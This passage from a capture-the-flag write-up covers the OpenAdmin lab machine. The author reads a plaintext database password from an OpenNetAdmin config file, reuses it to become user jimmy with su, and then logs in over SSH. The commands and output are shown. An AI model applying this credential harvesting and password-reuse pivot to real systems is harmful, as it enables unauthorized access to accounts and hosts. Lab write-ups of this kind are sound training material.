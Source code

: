 `/var/www/html/ona/local/config/database_settings.inc.php`

```bash
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>
```

I do not want to gain access as the mysql user, so I checked for password reuse (jimmy worked):

```bash
www-data@openadmin:/dev/shm$ su jimmy
Password: 
jimmy@openadmin:/dev/shm$ whoami
jimmy
```

That worked, I try to access over SSH, which is more stable than the netcat shell:

```bash
┌──(user㉿KaliVM)-[/tools/LinPEAS]
└─$ ssh jimmy@openadmin.
The authenticity of host 'openadmin.htb (10.10.10.171)' can't be established.
ECDSA key fingerprint is SHA256:loIRDdkV6Zb9r8OMF3jSDMW3MnV5lHgn4wIRq+vmBJY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added openadmin.htb,10.10.10.171 (ECDSA) to the list of known hosts
jimmy@openadmin.htb's password:
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```

## jimmy → joanna

---